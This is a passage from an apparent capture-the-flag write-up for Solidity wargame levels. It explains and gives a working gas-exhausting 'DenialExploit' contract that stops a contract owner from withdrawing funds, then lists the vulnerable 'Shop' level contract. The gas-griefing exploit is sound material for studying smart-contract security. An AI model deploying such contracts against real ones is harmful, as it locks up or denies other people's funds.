 This challenge is similar to "9. King" challenge. We have to deny the owner from withdrawing the funds. The exploit for "King" challenge doesn't work here, That's because "call" is used instead of "transfer" to send ether. "call" doesn't propagate the errors, it just returns boolean indicating the success of the "call". so, simply reverting from fallback function doesn't solve this challenge. What we can do is consume all the available gas in the fallback function using some gas heavy operations and when the call is completed, there won't be enough gas for further operations and transaction fails because of low gas. As storage operations consume maximum gas, we can use loops to repeatedly read and write to storage. 

```solidity
pragma solidity ^0.6.0;

contract DenialExploit {
    uint f;
    uint s;
    uint k;
    receive() external payable {
        for (uint i = 0; i < 10000; i++) {
            f = f + i**2;
            s = s + f;
        }
    }
}
```

---

# <a name="shop"></a> 21. Shop
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price{gas:3300}() >= price && !isSold) {
      isSold = true;
      price = _buyer.price{gas:3300}();
    }
  }
}
```
